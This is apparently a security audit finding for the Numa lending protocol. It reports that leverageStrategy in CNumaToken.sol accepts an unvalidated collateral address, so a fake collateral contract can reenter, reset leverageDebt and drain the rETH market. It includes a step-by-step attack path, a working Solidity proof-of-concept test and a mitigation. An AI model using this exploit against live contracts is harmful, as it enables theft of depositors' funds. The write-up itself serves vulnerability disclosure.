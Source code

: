 Itchy Ultraviolet Monkey

High

# cLST market can be drained using a fake collateral token address in leverageStrategy function

### Summary

The missing validation for `_collateral` in the `leverageStrategy()` function of `CNumaToken.sol` can lead to a drain of rETH in the cReth market, as an attacker can pass a fake collateral token to get a callback to their fake collateral contract in between the execution after the flashborrow.


### Root Cause

Lack of input address validation for `_collateral` cToken address in leverageStrategy function.
https://github.com/sherlock-audit/2024-12-numa-audit/blob/main/Numa/contracts/lending/CNumaToken.sol#L141-L242

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

Initial State:
- cReth market has 100 rETH
- 1 rETH = 100 Numa

Attack Steps:

1. Attacker deploys malicious contract (`FakeCollateralToken`) that:
    - Returns rETH address when underlying() is called
    - Implements malicious mint() function.

2. Attacker funds `FakeCollateralToken` with 200 Numa.

3. FakeCollateralToken supplies 100 Numa to cNUMA contract.

4. Attacker calls `cReth.leverageStrategy(20, 80, FakeCollateralToken)`
    - This initiates 80 Numa flash borrow from NumaVault
    - Sets `leverageDebt` = 80 in NumaVault

5. cReth queries FakeCollateralToken.underlying()
    - Returns rETH address instead of expected Numa address

6. So cReth approves 100 rETH to FakeCollateralToken.
8. When cReth calls `FakeCollateralToken.mint()` (callback to attackers contract):
    - Attacker executes nested leverageStrategy(1, 1, cNuma)
    - This overwrites NumaVault's `leverageDebt` from 80 to 0.
    - So attacker don't have to pay 80 flash borrow in the main call.
  
9. During flash loan repayment:
    - cReth approves rETH (wrong token) to NumaVault due to manipulated underlying()
    - But as NumaVault attempts to transferFrom 0 Numa due to overwritten leverageDebt `repayLeverage` will pass without failing due to wrong approval. 


9. Due to the approval in step 6:
    - Attacker's FakeCollateralToken contract will have 100 rETH approval from cReth contract
    - Attacker uses this approval to transfer all 100 rETH from cReth market to his FakeCollateralToken contract


### Impact

1. rETH supplied to cReth Market can be drained.
2. Flashminted Numa will get into supply and stuck in cReth contract.

### PoC
Add this test to `lending.t.sol`
```solidity
    mapping(address => uint256) public balanceOf;
    address public underlying;
    function accrueInterest() public returns (uint) {
        return 0;
    }

    function mint(uint256 amount) public returns (uint) {
        balanceOf[msg.sender] += amount;
        address[] memory t = new address[](1);
        t[0] = address(cNuma);
        comptroller.enterMarkets(t);
        // Calling leverageStrategy inside callback to overwrite leverageDebt value
        numa.approve(address(cReth), 1 ether);
        cReth.leverageStrategy(
            1 ether,
            1 ether,
            CNumaToken(address(cNuma)),
            0
        );
    }

    function transfer(address to, uint256 amount) public {
        balanceOf[msg.sender] -= amount;
        balanceOf[to] += amount;
    }


    
    function test_missing_token_validation_drain_bug() public {

        // Supplying some rETH to the cReth market for the attacker to steal
        address supplier = makeAddr("supplier");
        deal({token: address(rEth), to: supplier, give: 100 ether});

        vm.startPrank(supplier);

        rEth.approve(address(cReth), 100 ether);
        cReth.mint(100 ether);

        vm.stopPrank();

        // setting underlying to cReth address
        underlying = address(rEth);
        

        vm.startPrank(userA);

        // Funding the attaker contract with Numa
        numa.transfer(address(this),100 ether);

        // Minting cNUMA
        address[] memory t = new address[](1);
        t[0] = address(cNuma);
        comptroller.enterMarkets(t);

        numa.approve(address(cNuma), 50 ether);
        cNuma.mint(50 ether);

        // Calling leverageStrategy with fake collateral token
        rEth.approve(address(cReth), 10 ether);
        cReth.leverageStrategy(
            10 ether,
            40 ether,
            CNumaToken(address(this)), 
            0
        );

        vm.stopPrank();
       
       uint allowance = rEth.allowance(address(cReth),address(this));
       // Transferring funds from cReth to attacker contract
       rEth.transferFrom(address(cReth),address(this),allowance);
    }
```


### Mitigation

Validate the supplied `_collateral` address in the `leverageStrategy` and `closeLeverageStrategy` functions.
